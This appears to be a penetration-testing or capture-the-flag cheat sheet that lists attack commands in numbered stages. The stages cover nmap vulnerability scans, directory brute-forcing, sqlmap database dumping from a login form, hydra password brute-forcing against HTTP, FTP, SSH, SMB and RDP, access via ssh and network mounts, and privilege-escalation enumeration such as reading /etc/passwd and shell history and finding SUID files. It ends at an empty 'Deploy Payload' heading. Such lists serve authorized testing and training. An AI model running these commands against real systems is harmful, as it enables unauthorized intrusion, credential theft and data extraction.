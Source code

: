 # 1° Scan Nmap 

$sudo nmap -A [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn -sV -O [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn --script vuln [Target_IP]

$sudo nmap -Pn -p 80 --script http-enum [Target_IP]

$sudo nmap -Pn --script http-robots.txt [Target_IP]

$sudo nmap -Pn -p 21 --script ftp-anon [Target_IP]

# 2° Scan Dirb/Gobuster

$dirb http://example.com -o dirb-report.txt

$gobuster -u http://example.com -x php.txt,html -w /usr/share/dirb/wordlists/big.txt dir

# 3° Scan SQLMap

$sqlmap -u http://Target_IP/login.php --forms --dump

# 4° Crack Password

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$hydra -f -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 ssh

$hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 smb

$hydra -l username -P /usr/share/wordlists/rockyou.txt Target_IP rdp

# 5° Gain Access

http://example.com/login

http://example/upload

http://example.com/hiden/dir

http://example.com/robots.txt

$ftp Target_IP

$ssh user@Target_IP

$ssh -i id_rsa user@Target_IP

$ssh -oHostKeyAlgorithms=+ssh-rsa user@Target_IP

$sudo mount -o rw <Target_IP>:/backup /tmp/dir-target

$sudo mount -t cifs -o username=user_name //<Target_IP>/share_name /mnt/dir-target

# 6° Search Priv-Esc

$cat /etc/proc/version

$cat /etc/issue

$cat /etc/passwd

$cat /etc/crontab

$cat /etc/exports

$cat ~/.*history | less

$id

$ls -la /

$ls -la /home

$sudo -l

$getcap -r / 2>/dev/null

$find / -perm -o w -type d 2>/dev/null

$find / -perm -u=s -type f 2>/dev/null

$find / -name perl* python* gcc* 2>/dev/nul

$find /home -name flag*.txt

$find / -user "www-data" -name "*" 2>/dev/null

# 7° Deploy Payload
